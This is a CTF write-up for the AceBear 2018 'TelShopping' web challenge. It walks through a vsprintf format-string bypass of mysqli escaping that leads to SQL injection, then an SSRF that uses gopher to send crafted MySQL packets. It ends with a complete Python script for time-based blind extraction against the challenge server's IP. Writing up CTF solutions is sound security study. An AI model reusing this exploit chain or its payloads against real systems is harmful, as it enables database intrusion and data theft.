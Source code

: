 ```yaml
---
layout: post
title: TelShopping
category: AceBear 2018
---
```



So lets continue with the most hard task in this ctf , suggest you to try it , its still up for some days 

Ok the task was about web store , so you can buy some Tet as the task name :p 
![image](https://user-images.githubusercontent.com/7364615/35495325-aeef2cf4-04c0-11e8-86f0-f052c75800f8.png)

The orgz put also source code so we can check and and look for vuln part  `http://128.199.179.156/src.tar.gz`

Lets start look at the code and try to get it :D

Later , we can see that there is some place where we can control it 

![image](https://user-images.githubusercontent.com/7364615/35495452-40e69278-04c1-11e8-91d8-6ebf64cd8975.png)

`$_GET['uid']` was passed directly to the query , but thats was not so easy guys :p , there was filter for sure :D 

![image](https://user-images.githubusercontent.com/7364615/35495516-8042b1e0-04c1-11e8-94b7-743351c9c730.png)

`mysqli_real_escape_string` was here waiting for us , but there is little mistake here make all code weak 

![image](https://user-images.githubusercontent.com/7364615/35495681-6aa36d6a-04c2-11e8-956b-fd649c4cacd9.png)

So here vsprintf work as in C ,we can exploit it like format string 

So let me show my friend final exploit which maked us enable to manage the sqli and control it 100%

`
%1$c and 1=2 union select 1,2,0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 -- -
`

`
PS : 0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 = fIle:///var/www/html/ok.jpg 
`

So let me explain this payload to make it easy for you 

Here we have 

`
$prepare_qr = $jdb->addParameter("SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid=%s",  $_GET['uid']);
$prepare_qr = $jdb->addParameter($prepare_qr.' and user=%s', $username);
$result = $jdb->fetch_assoc($prepare_qr);
`

means here if we manipulate something how we can inject quote without make the filter remove it 

As we have `vsprintf`, we can send %c and convert any ASCII code to char 

`
%c - The character according to the ASCII value
`

means if our unsername : %1$c it will put ASCII code in our query but converted to char 

`
39 = > '
`

and thats all what we need to make the bypass here 

This is the normal query , notice in the code we have 2x prepares  of this query , which make us manipulate the gid again :D 

`
SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='%s' and user='%s';
`

Lets see Hacker query :D

Note first the username:

```
Username : 39 /*test*/ 

(39 already used :D  , test as comment so its 39 only in final query)
```

`
SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='%1$c and 1=2 union select 1,2,0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 -- -' and user='39 /*test*/';
`

Here %1$c will be replaced by 39 and as we used %c it will do the job for us :D , so it will be single quote HaHa

And here the SQL done ! next please :D 

For sure we cant extract the flag from database usign just SQLI, because the user used here have just access to on database and not flag database

![image](https://user-images.githubusercontent.com/7364615/35496299-bd177d72-04c5-11e8-8dba-84c3ce376e40.png)

So we have 3 column extracted from the database, the 3rd one is sended to watermark_me, lets take a look at it

![image](https://user-images.githubusercontent.com/7364615/35496319-e35a5f0e-04c5-11e8-8d26-25ca499a8b3a.png)

It just do some image stuff , but our input sended to get_data which end us to exploit SSRF :D WHAT A DAY

OK, here we will use the SSRF to extract flag from database using the use already with privilege ,which is fl4g_m4n4g3r as mention in code

To do this we need to communicate with mysql , gopher can do this for us

So what we will do to make this as fast as we can , is the setup all this locally and check mysql traffic using

`
tcpdump -i lo -n dst port 3306 -w mysql.pcap
`

Then we just check the packet and make use it to exploit this last step 

unfortunately in our exploit we was missing the QUIT request ,then we notice that and make the exploit work perfectly

Here we choice to make `time based blind sql injection` 

Here is the final exploit 

```
#!/bin/bash
import struct 
import binascii
from binascii import hexlify
import requests
import time

cookies = {
    'PHPSESSID': '5icps1lfga9oqrsr5enundodv6',
}

auth = bytearray([0xb6, 0x0, 0x0,0x1,0x05, 0xa2, 0x3f, 0x00,0x00,0x00,0x00,0x01,0x08,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00] 
    + list(b'fl4g_m4n4g3r') + [0x00,0x00,0x6d,0x79,0x73,0x71,0x6c,0x5f,0x6e,0x61,0x74,0x69,0x76,0x65,0x5f,0x70,0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x00,0x71,0x03,0x5f,0x6f,0x73,0x10,0x64,0x65,0x62,0x69,0x61,0x6e,0x2d,0x6c,0x69,0x6e,0x75,0x78,0x2d,0x67,0x6e,0x75,0x0c,0x5f,0x63,0x6c,0x69,0x65,0x6e,0x74,0x5f,0x6e,0x61,0x6d,0x65,0x08,0x6c,0x69,0x62,0x6d,0x79,0x73,0x71,0x6c,0x04,0x5f,0x70,0x69,0x64,0x05,0x31,0x30,0x37,0x30,0x35,0x0f,0x5f,0x63,0x6c,0x69,0x65,0x6e,0x74,0x5f,0x76,0x65,0x72,0x73,0x69,0x6f,0x6e,0x06,0x35,0x2e,0x36,0x2e,0x33,0x30,0x09,0x5f,0x70,0x6c,0x61,0x74,0x66,0x6f,0x72,0x6d,0x06,0x78,0x38,0x36,0x5f,0x36,0x34,0x0c,0x70,0x72,0x6f,0x67,0x72,0x61,0x6d,0x5f,0x6e,0x61,0x6d,0x65,0x05,0x6d,0x79,0x73,0x71,0x6c])

def encode(s):
    return ''.join(map(lambda x: "%{:02x}".format(x), list(s)))

flag = ""
while True:
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_!":
        cmd_arr = list(b"select flag from flag.flag where flag like '"+flag+i+"%' and sleep(5)")
        res = len(cmd_arr)+1
        cmd = struct.pack("<b", res) + bytearray([ 0x0, 0x0, 0x0, 0x03] + cmd_arr )
        quit_packet = bytearray([0x1, 0x0, 0x0, 0x0, 0x1])
        ddd = b"gopher://localhost:3306/A" + bytes(encode(auth + cmd + quit_packet))
        payload = "0x"+binascii.b2a_hex(ddd)
        t1 = time.time()
        url = "http://128.199.179.156/info.php?uid=%1$c%20and%201=2%20union%20select%201,2,"+payload+"%20--%20-"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 4.30:
            flag += i
            break
        print "time : "+str(t2 - t1)
        
    print flag

```
And the result :D 

![image](https://user-images.githubusercontent.com/7364615/35496852-0928447e-04c8-11e8-84b9-c83be6757662.png)

it was valid url , which give us the flag 

`
https://tinyurl.com/y9pplum3
`

![image](https://user-images.githubusercontent.com/7364615/35496901-3ba9a3b6-04c8-11e8-91c4-7292bc01d1dc.png)






